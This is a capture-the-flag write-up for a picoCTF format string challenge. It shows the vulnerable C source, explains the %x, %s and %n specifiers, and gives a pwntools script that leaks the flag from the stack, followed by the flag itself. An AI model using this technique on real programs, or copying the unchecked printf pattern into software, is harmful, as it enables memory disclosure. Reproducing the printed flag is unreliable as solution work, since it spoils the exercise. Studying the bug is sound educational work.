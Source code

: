 ```yaml
---
title: "pico - Fessemisk eksempel writeup"
categories: pico
tags: web
header:
    overlay_image:  https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
    overlay_filter: 0.5
    teaser: https://images.unsplash.com/photo-1519708227418-c8fd9a32b7a2?ixlib=rb-1.2.1&ixid=MnwxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8&auto=format&fit=crop&w=1470&q=80
tagline: "Dette er et eksempel på en post med custom forfatter"
read_time: true
published: true
toc: true
author: Julian Halsøy
---
```


## Description
Story telling class 1/2  
I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/123/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/123/vuln.c). And connect with it using:  
`nc saturn.picoctf.net PORT`

Dette er en endring.

## Vulnerable code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story); 
   printf("Here's a story - \n");
   printf(story); // Will print whatever we want, NOT GOOD!!
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```

## What is a format string vulnerability?
[OWASP - Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)  
[Exploiting format string - Stanford](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)  
[LiveOverflow - Format String Exploit bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4)  

In short the format string vulnerability lets us print and write information from the stack.

**OWASP extract:**   
> Below are some format parameters which can be used and their consequences:
> * ”%x” Read data from the stack
> * ”%s” Read character strings from the process’ memory
> * ”%n” Write an integer to locations in the process’ memory

**Example:**    
```c
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
    printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```

## Solution 
In the vulnerable code, the flag is placed on the stack just under the input buffer: 

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];
```
We can send `%1$s` to the program to view the first parameter on the stack. We will use this to brute force the location of the flag and print it.

**Exploit:**  
```python
from pwn import *

host, port = "saturn.picoctf.net", 55904

# Create remote or local process based on CLI
def new_process():
    if args.LOCAL:
        return process("./vuln")
    else:
        return remote(host, port)


# Brute force location of flag on the stack
with context.quiet:
    for i in range(30):
        p = new_process()
        p.recvuntil(b">>")
        p.sendline("%" + str(i) + "$s")
        p.recvuntil("\n")
        out = p.recvall()
        try:
            flag = out.decode()
        except UnicodeDecodeError:
            pass
        if "CTF{" in flag:
            print(f"pico{flag}")
```
### Flag
`picoCTF{L34k1ng_Fl4g_0ff_St4ck_6aea3c7c}`